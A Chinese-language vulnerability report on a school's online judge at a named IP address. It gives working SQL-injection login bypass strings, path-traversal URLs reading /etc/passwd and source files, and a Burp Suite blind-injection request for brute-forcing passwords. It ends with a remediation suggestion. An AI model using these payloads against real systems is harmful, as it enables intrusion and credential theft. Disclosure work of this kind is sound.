

# OJ的安全问题
本OJ存在大量安全问题，亟待改进。

## 评测机
提交自动出错程序（.\rand_err.cpp）会使评测机崩溃，之后提交的所有评测都将处于等待状态。评测机缺乏对内存资源使用和运行时间的限制机制。

## SQL注入，第一阶段
在登录页面 http://47.99.179.148/login.html，用户名填写`USERNAME'and true or'`，密码随意，即可进入`USERNAME`用户的后台。
* 直接修改密码（不需要验证原密码）
* 修改Remark、Phone、Email等个人信息
* 查看提交记录，并下载AC代码

## 任意文件读取
题目页面存在任意文件读取漏洞。`http://47.99.179.148/problem.php?id=?`存在注入点。
如可以读取下列文件（/root/下的文件缺少权限）：
* http://47.99.179.148/problem.php?id=?../../../../../../etc/passwd 
* http://47.99.179.148/problem.php?id=?../../../../../../proc/mounts
* http://47.99.179.148/problem.php?id=?../../../../../../var/www/html/index.php
* http://47.99.179.148/problem.php?id=?../../../../../../var/www/html/register.php
* http://47.99.179.148/problem.php?id=?../../../../../../var/www/html/login.php

审计PHP源码，可得数据库账号、密码，以及表名。

## SQL注入，第二阶段
### 爆破密码
#### 获得密码长度
`' or exists (select name from user_table where length(pwd)=6 and name='test') #`
能成功登录（这是登录的应该是数据库中第一个用户），则说明11是密码的长度。

#### Burp Suite 暴力破解
```http
POST http://47.99.179.148/login.php HTTP/1.1
Host: 47.99.179.148
Content-Length: 32
Cache-Control: max-age=0
Origin: http://47.99.179.148
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://47.99.179.148/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=biaqfc1knovc6o0vav58qtkc0u
Connection: close

user_name=test' AND pwd LIKE '§1§%' #&password=xxx&login=Login
```
其中，`LIKE`为SQL语句，用于匹配字符串模式。`%`是任意多个字符的通配符。利用Burp Suite的Intruder模块，在Payloads标签中设置Character Set为`0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`。开始攻击，观察响应的长度，长度较长的那个响应即为当前位的字符。
第一位是`1`。

修改POST请求，`user_name=test' AND pwd LIKE '1§1§%' #&password=xxx&login=Login`，重复上述过程。
逐位暴力破解，得完整密码`123456`。

## 其他隐患
为了不被开除，我没有进一步尝试，但不怀好意的人可能：
* 上传Webshell，得到系统访问权
* 在期末和全班同学同归于尽，使用`DROP TABLE`命令直接删除数据库
* 上传恶意代码，阻塞评测机
* 利用上述方法破解用户密码用于撞库
* ……

## 解决策略
改用开源OJ解决方案。

## 参考资料
* [https://www.cnblogs.com/RyanSun17373259/p/12980424.html]
* [https://www.ms509.com/2020/06/24/Waf-Bypass-Sql/]
* [https://www.runoob.com/sql/sql-like.html]